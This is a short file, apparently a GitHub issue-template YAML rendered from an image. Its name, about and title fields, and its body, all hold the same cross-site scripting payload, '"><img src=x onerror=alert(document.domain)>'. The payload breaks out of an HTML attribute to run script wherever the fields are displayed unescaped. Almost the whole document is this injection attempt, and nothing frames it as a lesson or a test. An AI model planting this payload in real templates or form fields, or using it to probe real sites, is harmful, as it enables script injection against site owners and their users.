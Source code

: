 ```yaml
---
name: "\"><img src=x onerror=alert(document.domain)>"
about: "\"><img src=x onerror=alert(document.domain)>"
title: "\"><img src=x onerror=alert(document.domain)>"
labels: ''
assignees: ''

---
```


"><img src=x onerror=alert(document.domain)>

